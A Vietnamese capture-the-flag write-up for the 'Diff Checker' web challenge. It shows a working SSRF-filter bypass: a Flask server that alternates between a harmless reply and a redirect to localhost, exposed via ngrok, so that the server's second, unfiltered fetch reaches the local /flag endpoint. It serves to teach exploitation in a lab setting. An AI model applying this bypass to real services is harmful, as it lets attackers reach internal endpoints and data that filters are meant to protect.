


# Diff Checker

Mình vẫn chưa solve được bài này tại giải do có một ít bruh .__. Bài này sử dụng một kĩ thuật khá hay giống với thứ mình mới học gần đây nên mình viết write up để lưu lại :>

## Hmmmmmm

Sau khi nghiên cứu source thì ai cũng biết flag được giấu ở đây :)) Để lấy được flag thì mình phải request đến `/flag` bằng một địa chỉ local.

```js
app.get('/flag', (req, res) => {
	if(req.connection.remoteAddress == '::1'){ // check ip local
		res.send(flag)}
	else{
		res.send("Forbidden", 503)}
});
```

Server sẽ request 2 lần đến địa chỉ mà mình cung cấp:

* Lần 1 là kiếm tra SSRF tại hàm `validifyURL`

```js
valid = await fetch(url, {agent: ssrfFilter(url)})
```

* Lần 2 là thực hiện `fetch` để lấy nội dung tại hàm `diffURLs`

```js
const pageOne = await fetch(urls[0]).then((r => {return r.text()}));
```

Khi request lần đầu, server sẽ check SSRF do đó URL mình nhập vào không được trỏ đến các địa chỉ bị filter như: `localhost`, `127.0.0.1`, `0.0.0.0`,... Sau khi đã pass được đoạn check SSRF thì mình cần phải trỏ đến server bằng địa chỉ local để lấy được flag.

Với ý tưởng như trên mình có thể dễ dàng solve được bài này bằng kĩ thuật DNS Rebinding nhưng ở đây, mình sẽ tự build một cái service tương tự, đây chính là thứ mình muốn note lại.

***But ưtf is D N S R e b i n d i n g ????***


DNS Rebinding ở các bài viết trước của mình:

* [Ez SQL (ISITDTU CTF QUALS 2021)](https://github.com/woanmeo11/ctf-writeups/tree/main/ISITDTU%20CTF%20QUALS%202021/ez%20sql)

* [A tiny hole (Cookie Arena Season 1)](https://github.com/woanmeo11/ctf-writeups/tree/main/Cookie%20Arena%20Season%201/A%20tiny%20hole)

## Do it

Đây là một đoạn code mình dựa trên ý tưởng vừa rồi, `backend.py`:

```python
from flask import Flask, redirect
import requests

app = Flask(__name__)
bit_flip = 0

# This function works like DNS Rebinding technique.
@app.route("/")
def rebinding():
    global bit_flip
    bit_flip += 1
    if bit_flip & 1:
        return 'bruh'
    else:
        return redirect('http://localhost:1337/flag')

app.run('localhost', 1234)
```

Đoạn code trên sẽ xoay vòng trả về `bruh` hoặc chuyển hướng đến `http://localhost:1337/flag`.

Tiếp theo mình chạy file `backend.py` và dùng `ngrok` để public lên internet:

```console
$ ngrok http localhost:1234

ngrok by @inconshreveable                                                                                (Ctrl+C to quit)

Session Status                online
Account                       woanmeo11 (Plan: Free)
Version                       2.3.40
Region                        United States (us)
Web Interface                 http://127.0.0.1:4040
Forwarding                    http://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234
Forwarding                    https://e0cc-14-242-198-247.ngrok.io -> http://localhost:1234

Connections                   ttl     opn     rt1     rt5     p50     p90
                              0       0       0.00    0.00    0.00    0.00
```

Cuối cùng, dùng URL mình nhận được từ `ngrok` để exploit thôi xD



Wait for it.




Flag: `idek{d1ff3r3nc3_ch3ck3r_d3ce1v3d_bY_d1ff3r3nc3s}`

#

Technique này mình note lại từ `downgrade` <3
